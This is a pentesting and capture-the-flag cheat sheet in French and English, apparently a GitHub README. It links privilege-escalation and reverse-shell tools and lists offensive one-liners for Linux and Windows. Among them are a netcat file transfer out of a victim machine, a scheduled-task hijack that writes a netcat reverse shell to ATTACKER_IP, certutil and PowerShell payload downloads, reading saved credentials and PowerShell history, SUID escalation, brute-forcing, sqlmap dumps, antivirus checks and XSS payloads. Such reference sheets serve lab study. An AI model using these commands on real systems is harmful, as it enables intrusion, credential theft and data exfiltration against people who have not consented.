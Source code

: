```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
linEnum : https://github.com/rebootuser/LinEnum <br>
winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
Reverse Shells : https://www.revshells.com/ <br>
Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
Binaries exploit : https://gtfobins.github.io/ <br>
PrivEscCheck (windows) : https://github.com/itm4n/PrivescCheck <br>
```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```
wes.py (aussi pour windows): https://github.com/bitsadmin/wesng/blob/master/wes.py <br>
```
user@kali$ wes.py systeminfo.txt        
```
Windows Local PrivEsc : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbclient //10.10.188.11/BillySMB -I 10.10.188.11 -U bjoel
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br> 
<br>

# Windows

```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](WIN)*PS*   => schtasks | schtasks /query /tn TASKVULNERABLE /fo list /v   #Planificateur de tâche
                    icacls c:\tasks\schtask.bat #Donne des infos sur les permissions planificateur de tâches
                    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
                    schtasks /run /tn vulntask #Exécute la tâche direct

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```

# AntiVirus

```
========================= OBTENIR LES INFOS SUR LES AV INSTALLE =============================

*CMD* & *PS*  => wmic /namespace:\\root\securitycenter2 path antivirusproduct
*PS*          => Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

=============================================================================================

*PS* Check si actif =>  Get-MpComputerStatus | select RealTimeProtectionEnabled
```

# Some XSS Cheats
```
<script>document.querySelector('#page-title').textContent = 'New text'</script>
<img src=x onerror=alert('hello')>
```


-------------------------------------------------------------------------------------------------------------------------------------------+

